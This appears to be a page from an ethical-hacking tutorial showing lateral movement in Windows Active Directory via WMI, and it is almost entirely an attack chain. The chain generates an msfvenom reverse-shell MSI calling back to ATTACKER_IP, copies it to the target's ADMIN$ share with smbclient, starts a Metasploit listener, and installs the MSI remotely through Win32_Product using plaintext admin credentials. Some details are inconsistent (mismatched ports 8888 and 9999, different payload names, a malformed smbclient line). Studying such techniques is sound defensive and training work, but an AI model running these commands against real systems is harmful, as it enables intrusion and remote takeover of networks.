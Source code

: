 # Example

Refer to the section labelled ["Example scenario"](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/lateral-movement-and-pivoting/example-scenario) to understand the setup we will be working with. The following will illustrate an example of how we can use WMI to move laterally in a network.

### (1) Using `.msi` packages and `Win32_Product`

#### 1. Craft the reverse shell payload (`msfvenom`) in the `.msi` format

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=8888 -f msi -o rvshell.msi
```
{% endcode %}

> Take note of the value passed to the `LPORT` option

#### 2. Copy the payload over to the target machine using _SMB_ (or any other methods available):

{% code title="Attacker" overflow="wrap" %}
```sh
# lets first identify the name of the admin share
$ smbclient -U admin -W test.com '//iis.test.com/ADMIN$' -L
Sharename       Type      Comment
---------       ----      -------
 ADMIN$         Disk      Remote Admin
...


$ smbclient -c "put <msi_name>.exe -U admin -W test.com '//iis.test.com/ADMIN$'
```
{% endcode %}

> Replace `service_exec_name>.exe` with the name of the `.msi` file created with `msfvenom`

_Start the msfconsole listener (used to catch the shell in one of the later step):_

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfconsole
msf6> use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST <local_addr>
msf6 exploit(multi/handler) > set LPORT 9999
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > run
```
{% endcode %}

#### 3. Create a new WMI session against our target machine (`iis.test.com`) and invoke the Install method from the `Win32_Product` class:

a. Create WMI session

{% code overflow="wrap" %}
```powershell
PS C:\> $username = 'admin';
PS C:\> $password = 'pass';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

PS C:\> $Opt = New-CimSessionOption -Protocol Dcom
PS C:\> $Session = New-Cimsession -ComputerName iis.test.com -Credential $credential -SessionOption $Opt -ErrorAction Stop 
```
{% endcode %}

b. Invoke `Win32_Product` Install method:

{% code overflow="wrap" %}
```powershell
PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
PackageLocation = "C:\Windows\<installed_msi>.msi";
Options = "";
AllUsers = $false
}
```
{% endcode %}

After executing the above commands, we should receive a connection on the `msfconsole` listener we have established earlier:

{% code title="msfconsole" overflow="wrap" %}
```powershell
C:\> ...
```
{% endcode %}

